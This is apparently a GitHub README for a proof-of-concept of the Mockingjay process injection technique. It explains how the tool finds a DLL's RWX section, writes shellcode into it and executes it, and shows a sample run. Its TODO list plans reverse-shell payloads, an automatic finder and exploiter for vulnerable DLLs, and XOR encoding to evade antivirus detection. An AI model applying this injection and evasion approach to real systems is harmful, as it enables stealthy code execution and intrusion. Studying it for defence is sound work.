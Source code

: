 # Mockingjay-POC

PoC for the Mockingjay injection technique (https://www.securityjoes.com/post/process-mockingjay-echoing-rwx-in-userland-to-achieve-code-execution).

What this code does :

1. Find the offset of the RWX section in the DLL passed as an argument
2. Find the size of the RWX section in the DLL passed as an argument
3. Write Shellcode into the RWX section of the DLL passed as an argument
4. Execute Shellcode from the RWX section of the DLL passed as an argument


### Usage
```ps1
PS C:\Users\admin\source\repos\Mockingjay-POC\x64\Release> .\Mockingjay-POC.exe
MOCKINGJAY SUPER ASCII ART

Error: Please provide the path to the DLL as a positional argument.
Usage: C:\Users\admin\source\repos\Mockingjay-POC\x64\Release\Mockingjay-POC.exe PATH_TO_DLL

--------------------------------------------------------------------------------------------

PS C:\Users\admin\source\repos\Mockingjay-POC\x64\Release> .\Mockingjay-POC.exe 'C:\Program Files\Microsoft Visual Studio\2022\Community\Common7\IDE\CommonExtensions\Microsoft\TeamFoundation\Team Explorer\Git\usr\bin\msys-2.0.dll'
MOCKINGJAY SUPER ASCII ART

Base Adress : 210040000
Section Offset : 1ec000
Size of RWX section : 14848
Address of RWX Section : 000000021022C000
RWX section starts at 000000021022C000 and ends at 000000021022FA00
Size of RWX section : 14848
Size of shellcode : 461
461 bytes of Sh3llc0d3 written to RWX Memory Region
```


#### TODO
- Fix THREAD mess. For now, working great with simple calc shellcode but with a reverse shell, threads are not "independant" and parent one is stuck
- Add RWXFinder in this code to do some kind of all-in-one program that will find vulnerable DLL, and then exploit them
- Need to work with XOR shellcode to avoid static AV detection
